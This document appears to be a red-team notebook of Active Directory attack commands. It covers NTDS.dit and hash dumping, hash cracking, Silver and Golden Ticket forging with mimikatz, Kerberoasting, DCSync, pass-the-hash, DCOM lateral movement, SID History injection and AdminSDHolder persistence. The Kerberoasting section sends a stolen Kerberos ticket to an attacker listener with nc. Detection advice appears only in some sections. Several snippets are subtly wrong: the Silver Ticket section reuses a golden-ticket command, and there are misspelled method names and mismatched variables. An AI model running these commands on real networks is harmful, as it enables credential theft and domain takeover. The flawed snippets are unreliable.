[impacket-secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) performs various techniques to dump hashes from the remote machine without executing any agent there.

For NTDS.dit we either:

- Get the domain users list and get its hashes and Kerberos keys using [MS-DRDS] DRSGetNCChanges() call, replicating just the attributes we need.
- Extract NTDS.dit via vssadmin executed with the smbexec approach. It's copied on the temp dir and parsed remotely.

```bash
# Dump the password hashes (Requires Domain Admin rights on the target domain.)
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>

# If we have the HKLM\System hive (reg.exe save HKLM\SYSTEM) and a copy of the ntds.dit
# -> Offline extraction
secretsdump.py -system system.hive -ntds dit LOCAL
```

If at one point the ntds.dit seems to be corrupted, use [esentutl](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh875546(v=ws.11)) in order to try to repair it

While running, Active Directory may maintains a file system lock on the ntds.dit file, which means simply attempting to copy it will fail.
There are multiple ways around this constraint, however:

1) Stop Active Directory, which is most likely to be detected
2) Perform the Volume Shadow Copy Service (VSS) to snapshot the volume, and extract ntds.dit from the snapshot
3) Use buit-in tools like NTDSUtil.exe or DSDBUtil.exe
4) use PowerShell tools like PowerSploit's Invoke-NinjaCopy

[Ntdsutil](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc753343(v=ws.11)) is a command-line tool that provides management facilities for Active Directory Domain Services (AD DS) and Active Directory Lightweight Directory Services (AD LDS).

```bash
# - Activate Instance NTDS: Sets NTDS or a specific AD LDS instance as the active instance.
# - IFM: Creates installation media for writable (full) and read-only domain controllers (RODCs) and instances of AD LDS.
# This will generate a ntds.dit file to S:\Files\Active Directory\ntds.dit
NTDSUTIL "Activate Instance NTDS" "IFM" "Create Full S:\Files" "q" "q"
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure Domain Controller backups are properly secured and encrypted.
- *Architecture*: Ensure that local administrator accounts have complex, unique passwords across all systems on the network.
- *Architecture*: Design an enterprise network that limits privileged account use across administrative tiers.
- *Active Defense*: Monitor abnormal attempts to access or copy the NTDS.dit

For more information about that technique refer to [T1003.003 - OS Credential Dumping: NTDS](https://attack.mitre.org/techniques/T1003/003/)

###### *If you don't know, now you know: [Ntds.dit](https://www.windowstechno.com/what-is-ntds-dit/)*

The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes (NTLM) for all users in the domain.

The two types of domain controllers in AD DS that manage credentials differently are:

- **Writable**: Each writable domain controller in the domain contains a full copy of the domain’s AD DS database, including account credentials for all accounts in the domain.
- **Read-only**: Read-only domain controllers (RODCs) house a partial local replica with credentials for a select subset of the accounts in the domain. By default, RODCs do not have a copy of privileged domain accounts.

By default, it is located in "C:\Windows\NTDS\"

Ntds.dit is encrypted with the Password Encryption Key.
The required Password Encryption Key is stored in the NTDS.dit file, but is encrypted itself with the BOOTKEY. To obtain this BOOTKEY, we need to acquire a copy of the SYSTEM registry hive from the same Domain Controller as we acquired the NTDS.dit file.

Ntds.dit is **"stored credentials"** method

###### *If you don't know, now you know: [LM-hashes](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4)*

LM-hashes is the oldest password storage used by Windows, in the 1980’s.
LM was turned off by default starting in Windows Vista/Server 2008.

Example:
> 299BD128C1101FD6

```bash
john --format=lm hash.txt
hashcat -m 3000 -a 3 hash.txt
```

NTHash (A.K.A. NTLM) is the way passwords are stored on modern Windows systems, and can be obtained by dumping the SAM database.
This is the way passwords are stored on modern Windows systems

Example:
> B4B9B02E6F09A9BD760F388B67351E2B

```bash
john --format=nt hash.txt
hashcat -m 1000 -a 3 hash.txt
```

NTLMv1 (A.K.A. Net-NTLMv1)

The NTLM protocol uses the NTHash in a challenge/response between a server and a client.
The v1 of the protocol uses both the NT and LM hash.

```bash
john --format=netntlm hash.txt
hashcat -m 5500 -a 3 hash.txt
```

NTLMv2 (A.K.A. Net-NTLMv2)

NTLMv2, introduced in Windows NT 4.0 SP4 (1998) with the intend to be cryptographically strengthened replacement for NTLMv1.
Default in Windows since Windows 2000.

> admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c7830310000000000000b45c67103d07d7b95acd12ffa11230e0000000052920b85f78d013c31cdb3b92f5d765c783030

```bash
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```

Use of protocol versions:

- **Send LM & NTLM responses**: Clients use LM and NTLM authentication, and never use NTLMv2 session security; DCs accept LM, NTLM, and NTLMv2 authentication.
- **Send LM & NTLM - use NTLMv2 session security if negotiated**: Clients use LM and NTLM authentication, and use NTLMv2 session security if server supports it; DCs accept LM, NTLM, and NTLMv2 authentication.
- **Send NTLM response only**: Clients use NTLM authentication only, and use NTLMv2 session security if server supports it; DCs accept LM, NTLM, and NTLMv2 authentication.
- **Send NTLMv2 response only**: Clients use NTLMv2 authentication only, and use NTLMv2 session security if server supports it; DCs accept LM, NTLM, and NTLMv2 authentication.
- **Send NTLMv2 response only\refuse LM**: Clients use NTLMv2 authentication only, and use NTLMv2 session security if server supports it; DCs refuse LM (accept only NTLM and NTLMv2 authentication).
- **Send NTLMv2 response only\refuse LM & NTLM**: Clients use NTLMv2 authentication only, and use NTLMv2 session security if server supports it; DCs refuse LM and NTLM (accept only NTLMv2 authentication).

#### Silver Tickets

Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account.

Silver Tickets are forged Kerberos **Ticket Granting Service (TGS)** tickets, also called service tickets.
Since a Silver Ticket is a forged TGS, there is **no** communication with a Domain Controller.

In order to create or forge a Silver Ticket, we need has to gain knowledge of the password data (password hash) for the target service. If the target service is running under the context of a user account, then the Service Account’s password hash is required in order to create a Silver Ticket.

"Microsoft added a security check to its implementation of Kerberos known as the Privilege Attribute Certificate (PAC) that requires the TGS to be signed by the KDC using the krbtgt encryption key. However, this check is often disabled in customer environments."

[Kerberoast](https://github.com/nidem/kerberoast) is a series of tools for attacking MS Kerberos implementations.
[Rubeus](https://github.com/GhostPack/Rubeus) is a C# toolset for raw Kerberos interaction
[setspn](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc731241(v=ws.11)) reads, modifies, and deletes the Service Principal Names (SPN) directory property for an Active Directory service account.

Options:

- **T**: Perform query on the specified domain or forest
- **-F**: Perform the query at the Active Directory forest level
- **-Q**: Specify which SPNs to look for

```bash
setspn -T victim.local -F -Q */*
```

setspn will not only provide useful information about service users and all the hostnames in AD, but it will also
tell us which services are running on the systems and even the port

```bash
mimikatz.exe
mimikatz # privilege::debug            # Ask for debug privilege for mimikatz process.
mimikatz # MISC::memssp                # Inject an arbitrary SSP DLL in memory in order to interact with the LSASS process
mimikatz # sekurlsa::logonpasswords    # Gather KRBTGT Password Information
```

Now we need to create the ticket which requires:

- **Domain name (/domain)**: The FQDN
- **SIDs (/sid)**: the SID of the domain
- **Key (/rc4 or /aes128 or /aes256)**: The key we from the *"lsadump::lsa /inject"* command
- **User (user:)**: the username we want to impersonate
- **Service (/service)**: The kerberos service running on the target server.
- **/ptt**: Specify that we will "Pass-The-Ticket" which means that we will impersonate a user on an Active Directiry domain nuy injecting the golden ticket in the current session.
- **RID (/id)** *(optional)*: id of groups the user belongs

The **/service** will depend on our goal

|Service|TGS Needed|Access|
|-|-|-|
|WMI|HOST & RPCSS|Remotely execute commands
|Remote PowerShell|HOST & HTTP|WinRM and/or remote PowerShell
|WinRM|HOST & HTTP|WinRM and/or remote PowerShell
|Scheduled Tasks|HOST|Get admin rights on any any Windows service covered by "host"|
|Windows File Share (CIFS)|CIFS|Access any shares and copy files to or from the share|
|LDAP Operations|LDAP|Admin rights to LDAP services

```bash
# Creating and injecting the Golden Ticket
mimikatz # kerberos::golden /domain:victim.local /sid:S-1-5-21-7777777777-7777777777-7777777777 /rc4:7777777777777777777777777777777 /user:newAdmin /ptt
```

We can verify that the cached ticket is there by using [klist](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/klist) which is a native command of Windows used to display a list of currently cached Kerberos tickets.

```bash
klist
```

If the user is set to use AES, we may need to try to downgrade towards RC4 by doing the following on the infected machine
This is done by using the **/tgtdeleg** option which says that accounts with AES enabled will have RC4 tickets requested.

```bash
# All user accounts with SPNs set in the current domain are Kerberoasted
Rubeus.exe kerberoast /tgtdeleg
```

Kerberoasting stand for extracting service account credential hashes from Active Directory for offline cracking.

```bash
tgsrepcrack.py pwd kerberoast.bin
```

Note that a SIEM or Security Analysts may detect the fact that we are requesting an RC4 instead of AES.

For more information about that technique refer to [T1558.002 - Steal or Forge Kerberos Tickets: Silver Ticket](https://attack.mitre.org/techniques/T1558/002/)

#### Kerberoasting

> // To Finish

:warning: Requirement:

- User Account

Kerberoasting is a common, pervasive attack targeting Active Directory service account credentials that exploits a combination of weak encryption and poor service account password hygiene.

Kerberoasting takes advantage of human nature nearly as much as it exploits known security weaknesses in Kerberos authentication for Active Directory.

request a Kerberos service ticket for any service, capture that ticket granting service (TGS) ticket from memory,

By design, TGS tickets are encrypted with the **service account's NTLM hash**. In Microsoft Windows, service principal names (SPNs) identify service accounts that are used to encrypt TGS tickets. They can be linked to either host- or domain user accounts.
Kerberos authentication allows authenticated domain users to request a TGS ticket for any service on the network.

Kerberoasting attacks work only against domain user SPNs. That is because **host-based SPNs** are secured with random 128-character passwords that are changed every 30 days. These long, random, and short lived passwords are practically unguessable, even with modern password cracking tools and hardware.
On the otherside, **user account SPN passwords** which may never expire and may be changed rarely.

Here are two methods to enumerate vulnerable SPN:

- PowerSploit [Get-NetUser]() cmdlet
- Script from [Stealthbits](https://attack.stealthbits.com/cracking-kerberos-tgs-tickets-using-kerberoasting)

```powershell
# Build LDAP Filter to look for users with SPN values registered for current domain
$ldapFilter = "(&(objectClass=user)(objectCategory=user)(servicePrincipalName=*))"
$domain = New-Object System.DirectoryServices.DirectoryEntry
$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.PageSize = 1000
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"
#Execute Search
$results = $search.FindAll()
#Display SPN values from the returned objects
$Results = foreach ($result in $results)
{
  $result_entry = $result.GetDirectoryEntry()
 
  $result_entry | Select-Object @{
    Name = "Username";  Expression = { $_.sAMAccountName }
  }, @{
    Name = "SPN"; Expression = { $_.servicePrincipalName | Select-Object -First 1 }
  }
}
 
$Results
```

```powershell
# 1. On our workstation: Setting up a nc listener in order to receive the hash we will crack later
nc -lvp 443 > kerberoast.bin
# 2. On our compromised PC: Enumerating user accounts with 'serverPrincipalName' attribute set
Get-NetUser -SPN # Using PowerSploit
Get-ADObject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}

Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"

nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```

Extract the hash from memory

```bash
# Through Rubeus
.\Rubeus.exe kerberoast /simple /outfile:hashes.txt
# Through Mimikatz
mimikatz # kerberos::list /export
```

.\hashcat.exe -m 13100 -o cracked.txt -a 0 .\Hash.txt .\wordlist.txt

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Enable the group Managed Service Accounts (gMSA).
- *Architecture*: Adopt strong password hygiene practices for service accounts.
- *Architecture*: Configure individual service accounts to not permit the RC4 protocol though setting *msDS-SupportedEncryptionTypes* to *0x18*.
- *Architecture*: Perform *Kerberos Armoring* by reject authentication requests not using Flexible Authentication Secure Tunneling (FAST).
- *Passive Defense*: Implement a honeypot method such as a well defined SPNs that should be not used.
- *Active Defense*: Audit the assignment of servicePrincipalNames to sensitive user accounts.
- *Active Defense*: Monitor for use of RC4 encryption within Windows Event IDs 4769 and 4770.
- *Active Defense*: Monitor for abnormal volume of TGS requests.

For more information about that technique refer to [T1558.003 - Steal or Forge Kerberos Tickets: Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)

#### Golden Ticket

The golden ticket technique is a technique where starts by extracting the password from the KRBTGT account on an Active Directory Domain Controller we have access to. Then we create a **Ticket Granting Ticket (TGT)** ticket that has Domain Admin rights.

1) Get access to a domain controller
2) Extract the KRBTGT account password hash as well as the domain SID information
3) Create the golden ticket

For this, we will use [mimikatz](https://github.com/gentilkiwi/mimikatz) which is considered to be the "Swiss army knife" of Windows credentials

```bash
# Check of LSA Protection is enabled
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\LSASS.exe"
```

Note that the LSA Protection could be enabled, in order to bypass this, we need to inject a fake driver signed by Microsoft

```bash
C:\Users\thomas> mimikatz.exe
mimikatz # privilege::debug                   # Ask for debug privilege for mimikatz process.
mimikatz # MISC::memssp                       # Inject an arbitrary SSP DLL in memory in order to interact with the LSASS process
mimikatz # lsadump::lsa /inject /name:krbtgt  # Gather KRBTGT Password Information
```

Now we need to create the ticket which requires (same as in the Silver Attack, except that we don't need the service)

For more information about that technique refer to [T1558.001 - Steal or Forge Kerberos Tickets: Golden Ticket](https://attack.mitre.org/techniques/T1558/001/)

##### DCSync

DCSync is a late-stage kill chain attack that allows an attacker to simulate the behavior of Domain Controller (DC) in order to retrieve password data via domain replication.

Here below are the stages of a DCSync attack



Source: <https://stealthbits.com/blog/what-is-dcsync-an-introduction/>

We need Administrators, Domain Admins or Enterprise Admins to perform it, as we need those rights:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes In Filtered Set

```bash
# We perform a Pass-The-Hash 
.\mimikatz.exe "privilege::debug" "sekurlsa::msv"
.\mimikatz.exe "sekurlsa::pth /user:PrivUser1 /ntlm:eed224b4784bb040aab50b8856fe9f02 /domain:domain.com"
# We replicate credentials from Active Directory using the krbtgt account as target for replication
```

For more information about that technique refer to [T1003.006 - OS Credential Dumping: DCSync](https://attack.mitre.org/techniques/T1003/006/)

###### *If you don't know, now you know : [LSA Protection](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn408187(v=ws.11)?redirectedfrom=MSDN)*

Starting by Windows 8,1 and Windows Server 2012 R2, the Windows 8.1 operating system provides additional protection for the LSA to prevent reading memory and code injection by non-protected processes.

The LSA Protection focus on ensuring that all of the LSA plug-ins are digitally signed with a Microsoft certificate.

###### *If you don't know, now you know : [Security Support Provider Interface](https://docs.microsoft.com/en-us/windows/win32/rpc/security-support-provider-interface-sspi-)*

Security Support Provider Interface is a security method to add security within distributed application.
Beginning with Windows 2000, RPC supports a variety of security providers and packages which includes:

- **Kerberos Protocol Security Package**: Kerberos v5 protocol is an industry-standard security package. It uses fullsic principal names.
- **SCHANNEL SSP**: This SSP implements the Microsoft Unified Protocol Provider security package, which unifies SSL, private communication technology (PCT), and transport level security (TLS) into one security package. It recognizes msstd and fullsic principal names.
- **NTLM Security Package**: This was the primary security package for NTLM networks prior to Windows 2000.

#### Group Managed Service Accounts

The Group Managed Service Accounts (GMSA) was introduced in Windows Server 2008 R2 to automatically manage (change) passwords of **service accounts**
Those passwords are managed by AD and automatically changed.
&rarr; This means that the GMSA has security principals explicitly delegated to have access to the clear-text password.

*Side note: Within **BloodHound**, we can see who is able to read in clear text-password a clear-text password*

Informations to know:

- Computers hosting GMSA service account(s) request current password from Active Directory to start service.
- Configure the GMSA to allow computer accounts access to password.
- If we compromise a computer hosting services using GMSA, the **GMSA is also compromised**.
- If we compromise an account with rights to request GMSA password, the **GMSA is compromised**.

Group Managed Service Accounts have the object class **msDS-GroupManagedServiceAccount** and associated attributes specific to GMSAs.
These properties include:

- **msDS-GroupMSAMembership** (PrincipalsAllowedToRetrieveManagedPassword): Stores the security principals that can access the GMSA password.
- **msDS-ManagedPassword**: This attribute contains a BLOB with password information for group-managed service accounts.
- **msDS-ManagedPasswordId**: This constructed attribute contains the key identifier for the current managed password data for a group MSA.
- **msDS-ManagedPasswordInterval**: This attribute is used to retrieve the number of days before a managed password is automatically changed for a group MSA.

```powershell
$gmsa = Get-ADServiceAccount -Identity 'IDENTITY' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp
```

##### Lateral Movement with DCOM

By using this DCOM application and the associated method, it is possible to pivot to a remote host without using psexec, WMI, or other well-known techniques.

- **MMC20.Application** *(49b2791a-b1ae-4c90-9b8e-e860ba07f889)*:
- **WScript.Shell** *(72c24dd5-d70a-438b-8a42-98424b88afb8/f935dc22-1cf0-11d0-adb9-00c04fd58a0b)*:
- **ShellWindows** *(9BA05972-F6A8-11CF-A442-00A0C90A8F39)*: Represents a collection of the open windows that belong to the Shell. Methods associated with this objects can control and execute commands within the Shell, and obtain other Shell-related objects.
- **ShellBrowserWindow** *(C08AFD90-F2A1-11D1-8455-00A0C91F3880)*: Creates a new instance of Windows Explorer
- **Shell.Application**: *(13709620-c279-11ce-a49e-444553540000)*
- **HTML Application**: *(3050F4D8-98B5-11CF-BB82-00AA00BDCE0B)*:
- ...

DCOM applications can access the network and execute commands.

Here below is a the command to get a list of DCOM application

```powershell
Get-CimInstance Win32_DCOMApplication
```

##### Lateral Movement with Service Configuration Manager

[SCShell](https://github.com/Mr-Un1k0d3r/SCShell) is a fileless lateral movement tool that relies on [ChangeServiceConfigA](https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-changeserviceconfiga) to run commands. The beauty of this tool is that it does not perform authentication against SMB. Everything is performed over DCERPC.

```bash
.\scshell.exe TARGET SERVICE "C:\windows\system32\cmd.exe /c echo 'lateral hello' > c:\temp\lat.txt" username password
```

A service that can be used is XblAuthManager

###### LethalHTA

```powershell
LethalHTADotNet.exe IP URL_HTA
```

To detect our technique you can watch for files inside the INetCache (%windir%\[System32 or SysWOW64]\config\systemprofile\AppData\Local\Microsoft\Windows\INetCache\IE\) folder containing "ActiveXObject". This is due to mshta.exe caching the payload file. Furthermore it can be detected by an mshta.exe process spawned by svchost.exe.

###### Arbitrary Command Line Execution through Excell DDE

This uses the recently infamous Direct Data Exchange inter-process communications of Excel to execute an arbitrary command line.

To perform this technique, first create an instance of the "Excel.Application" object, which is the COM object associated with Excel automation.

```powershell
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excell.Application","TARGET_IP"))
# Tells Microsoft Excel to not display certain alerts and messages while a macro is running.
$excel.DisplayAlerts = $false
# Opens a dynamic data exchange (DDE) channel to another application.
$excel.DDEInitiate("cmd","/c PAYLOAD")
```

:warning: Artifacts and Indicators:

- The executed command is run as a child process of Excel.

###### Arbitrary Command Line Execution through MMC20.Application

The **ExecuteShellCommand** method of ActiveView runs a command in a window. After this method successfully starts the command in a separate process, it returns immediately (it does not wait for the command to complete).

```vb
View.ExecuteShellCommand( _
  ByVal Command As String, _     ' A value that specifies the command to execute. 
  ByVal Directory As String, _   ' A value that specifies the name of the working directory.
  ByVal Parameters As String, _  ' A value that specifies parameters, if any, to be used by Command
  ByVal WindowState As String _  ' A value that specifies the state for the window.
)
```

Here is how we can proceed

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","TARGET_IP"))
$mmc.Document.ActiveView.ExecuteShellCommand("PAYLOAD", $null, $null, "7")
```

:warning: Artifacts and Indicators:

- The executed command is run as a child process of mmc.exe.

###### Arbitrary Command Line Execution through ShellWindows

```powershell
$shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","TARGET_IP"))
$shell[0].Document.Application.ShellExecute("PAYLOAD")
```

:warning: Artifacts and Indicators:

- ShellWindows does not create a process. Instead, it activates the class instance inside of an existing explorer.exe process, which executes child processes quite regularly.
- To communicate, the host explorer.exe opens a listening socket on a DCOM port, which should clearly flag this technique.
&rarr; An explorer.exe process with a listening socket should raise your suspicion regardless of this method.

###### Arbitrary Command Line Execution through ShellBrowserWindow

```powershell
$shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","TARGET_IP"))
$shell.Document.Application.ShellExecute("PAYLOAD")
```

:warning: Artifacts and Indicators:

- ShellBrowserWindow does not create a process. Instead, it activates the class instance inside of an existing explorer.exe process, which executes child processes quite regularly.
- To communicate, the host explorer.exe opens a listening socket on a DCOM port, which should clearly flag this technique.
&rarr; An explorer.exe process with a listening socket should raise your suspicion regardless of this method.

###### Arbitrary Command Line Execution through Outlook

The Outlook object allows the instantiation and interaction with arbitrary COM objects via the **CreateObject** method.

```powershell
$outlook = [activator]::CreateInstance([type]::GetTypeFromProgID("Outlook.Application","TARGET_IP"))
$shell = $outlook.CreateObject("Shell.Application")
$shell.ShellExecute("calc.exe")
```

:warning: Artifacts and Indicators:

- The command is run as a direct child process of Outlook.

###### Arbitrary Command Line Execution through Visio's ExecuteLine

The Visio object provides a direct method to run any line of VBA from a string with the "ExecuteLine" method.

- ExecuteLine : Executes a line of Microsoft Visual Basic code.

```powershell
$visio = [activator]::CreateInstance([type]::GetTypeFromProgID("Visio.InvisibleApp"))
$doc = $visio.Documents.Add("")
$doc.ExecuteLine('CreateObject("Wscript.Shell").Exec("PAYLOAD")')
```

:warning: Artifacts and Indicators:

- VBE7.dll and ScrRun.dll are loaded into the Visio process.

###### Arbitrary Command Line Execution through Office Macro

The VBA Engine model in Office is normally inaccesible programmaticaly and needs to be enabled through the "Trust Access to Visual Basic Project" option in the properties menu of every application.
This can also be done via the *HKCU\Software\Microsoft\Office\\\<office version>\\\<office application name>\Security\accessVBOM*

Setting these values to 1 remotely (via WMI, for example) allows for the injection and execution of VBA macros into Excel, Word, PowerPoint and Access without supplying a payload carrying document file first.

Here below is a macro

```powershell
$macro : 'Sub Execute()
CreateObject("Wscript.Shell").Exec("calc.exe")
End Sub

Sub AutoOpen()
Execute
End Sub'
```

Through Excell

```powershell
$excel = [activator]::CreateInsstance([type]::GetTypeFromProgID("Excel.Application"))
$wb = $excel.Workbooks.Add("")
$wb.VBProject.VBComponents(1).CodeModule.AddFromString($macro)
$excel.Run("Book1!ThisWorkbook.Execute")
$excel.Quit()
```

Through Word

```powershell
$word = [activator]::CreateInsstance([type]::GetTypeFromProgID("Word.Application"))
$doc = $word.Documents.Add("")
$doc.VBProject.VBComponents(1).CodeModule.AddFormatString($macro)
$doc.RunAutoMacro(2)
$word.Quit()
```

Through PowerPoint

```powershell
$ppt = [activator]::CreateInsstance([type]::GetTypeFromProgID("Word.Application"))
$pres = $ppt.Presentations.Add(1)
$vbc.CodeModule.AddFromString($macro)
$ppt.Run("Execute")
$ppt.Quit()
```

Through Access

```powershell
$access = [activator]::CreateInstance([type]::GetTypeFromProgID("Access.Application"))
$db = $access.NewCurrentDatabase("fake_name")
$vbc = $access.vbe.VBProjects(1).VBComponents.Add(1)
$vbc.CodeModule.AddFromString($macro)
$access.Run("Execute")
$access.Quit()
```

:warning: Artifacts and Indicators:

- Enabling these methods requires the manipulation of certain registry keys that are rarely touched remotely, and are occasionally used by malicious macros.

###### Arbitrary Library Load through Excel XLL Registration

Excel is extensible by XLL libraries, which are simply DLLs that export specific functions. The Excel.Application object exposes this functionality via the RegisterXLL method.

```powershell
$excell = [activator]::CreateInstance([type]::GetTypeFromProgID("Excell.Application"))
$excell.RegisterXLL("DLL")
```

:warning: Artifacts and Indicators:

- The Excel process loads an unknown DLL.

###### *If you don't know, now you know : [COM/DCOM](https://docs.microsoft.com/en-us/windows/win32/com/the-component-object-model)*

The Microsoft Component Object Model (COM) is a platform-independent, distributed, object-oriented system for creating binary software components that can interact. COM is the foundation technology for Microsoft's OLE (compound documents), ActiveX (Internet-enabled components), as well as others.

A COM object's services can be consumed from almost any language by multiple processes, or even **remotely**.
COM objects are usually obtained by specifying either:

- **CLSID*: The *Class Identifier* is a *GUID*, which acts as a unique identifier for a COM class, and every class registered in Windows is associated with a CLSID (COM objects may be used without registration, but that is beyond the scope of this article). The CLSID key in the registry points to the implementation of the class, using the *InProcServer32* subkey in case of a dll-based object, and the LocalServer32 key in case of an exe.

- **ProgID*: The *Programmatic Identifier* is an optional identifier, which can be used as a more user-friendly alternative to a CLSID, as it does not have to adhere to the intimidating GUID format of CLSIDs ("System.AppDomainManager", for example, is much easier on the eyes than a GUID). ProgIDs are not guaranteed to be unique, and unlike CLSID, not every class is associated with a ProgID.

These COM objects are published in the Windows registry and can be extracted easily.

#### SID History (Multi Domain)

Requirements:

- We need to have domain administrator privileges in the trusted domain in order to exploit the vulnerability.
- The domain we are on need to be trusted by the target domain.

SID History enables access for another account to effectively be cloned to another.
It could enable us to escalate from one Active Directory Domain to another within the same forest.
This means that if we are administrator of another trusted domain, we can try to add an administrator account SID of the trusting domain to the SIDHistory attribute of a user account in the trusted domain.

```bash
Get-ADUser -Identity USER -Properties SidHistory | Select-Object -ExpandProperty SIDHistory
```

Mimikatz enables SID History injection to any user account

```bash
.\mimikatz "privilege::debug" "misc::addsid USER ADSAdministrator"
```

Once we login on the trusted domain, our user has all access the ADSAdministrator account, as well as Domain Admin rights.

For more information about that technique refer to [T1134.005 - Access Token Manipulation: SID-History Injection](https://attack.mitre.org/techniques/T1134/005/)

###### *If you don't know, now you know : [SID History](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc779590(v=ws.10)?redirectedfrom=MSDN)*

Every user account has an associated Security IDentifier (SID) which is used to track the security principal and the access the account has when connecting to resources.

When an user is migrated from one domain to another domain, the SID changes.

SID history is used for roaming user profile access, certification authority access, and software installation access, as well as resource access.

SID History enables access for another account to effectively be cloned to another and is extremely useful to ensure users retain access when **migrated** from one domain to another domain.

Therefore, we don't need to update the ACLs of the resources in the old domain with the new SIDs.

#### AdminSDHolder

This technique requires administrative privilege in the domain.

If we can manipulate AdminSDHolder, we can abuse the SDProp process in Active Directory to establish a persistent backdoor to Active Directory.

Within PowerSploit, we have an cmdlet [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/) which adds an ACL for a specific active directory object.

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System' -PrincipalIdentity ACCOUNT -Rights All
```

We can DCSync any account we want from the Domain Controller, even being not Domain Admin.

```bash
mimikatz # lsadump::dcsync /user:DOMAIN\krbtgt /domain:DOMAIN
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Embrace the principle of least privilege.
- *Architecture*: Do not allow users to possess administrative privileges across security boundaries.
- *Passive Defense*: Routinely audit AdminSDHolder permissions for unauthorized or unnecessary permissions.
- *Active Defense*: Monitor changes to the AdminSDHolder container ACL (Event ID 5136 in the Audit Directory Service Changes)
- *Active Defense*: Monitor creation and deletion of server objects (NTDSDSA and Global Catalog) within sites (Event ID 5136 and Event ID 5141 in the Audit Directory Service Changes)

###### *If you don't know, now you know: [AdminSDHolder](https://docs.microsoft.com/en-us/previous-versions/technet-magazine/ee361593(v=msdn.10)?redirectedfrom=MSDN)*

Active Directory protects "protected groups" (Administrators groups members, Domain Controllers group members, krbtgt account, ...) in order to prevent privilege elevation by users
who have been delegated rights over members of these groups.

Any account/group which is or was part of a protected group has their **AdminCount** property set to 1, even if the object is moved out of that protected group.

AdminSDHolder is located at "CN=AdminSDHolder,CN=System,DC=domain,DC=com"

The Access Control List (ACL) of the AdminSDHolder object is used as a template to copy permissions to all “protected groups” in Active Directory and their members.

Active Directory will take the ACL of the AdminSDHolder object and apply it to all protected users and groups periodically, in an effort to make sure the access to these objects is secure.

The AdminSDHolder permissions are pushed down to all protected objects by a process SDProp.

That means if an administrator sees an inappropriate permission on a protected object and removes it, within an hour **those permissions will be put back in place by SDProp**.

###### *If you don't know, now you know : [Foreign Security Principals](https://social.technet.microsoft.com/wiki/contents/articles/51367.active-directory-foreign-security-principals-and-special-identities.aspx)*

/ /  To Finish

A foreign security principal (sometimes referred to by the acronym FSP) is an object created by the Active Directory system to represent a security principal in a trusted external forest.

FSPs can also represent special identities, such as the "Authenticated Users" group.

This allows the external security principals and special identities to be added to domain local security groups in the domain and granted permissions to resources.

Get-ADObject -Filter {ObjectClass -eq 'ForeignSecurityPrincipal'}

https://4sysops.com/archives/clean-up-orphaned-foreign-security-principals/

###### *If you don't know, now you know : [PAC](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjq5_blldjtAhVWwAIHHSt5Bc4QFjADegQIORAC&url=https%3A%2F%2Fwinprotocoldoc.blob.core.windows.net%2Fproductionwindowsarchives%2FMS-PAC%2F%255BMS-PAC%255D.pdf&usg=AOvVaw25ciatmnDYPnShmIg_y36q)*

The Privileged Attribute Certificate (PAC) is an extension to Kerberos tickets that contains useful information about a user's privileges.

#### Windows Server Update Services (WSUS)

Why is it interesting ?

- Updates can often be installed by non-privileged users
- Non-Microsoft code, such as drivers,  available via Windows Update

Windows Server Update Services enables system administrators in organizations to centrally manage the distribution of updates and hotfixes released by Microsoft to a fleet of systems.

From the official documentation of Microsoft, we can read the following
> WSUS uses SSL for metadata only, not for update files. This is the same way that Microsoft Update distributes updates. Microsoft reduces the risk of sending update files over an unencrypted channel by signing each update. In addition, a hash is computed and sent together with the metadata for each update. When an update is downloaded, WSUS checks the digital signature and hash. If the update has been changed, it is not installed.

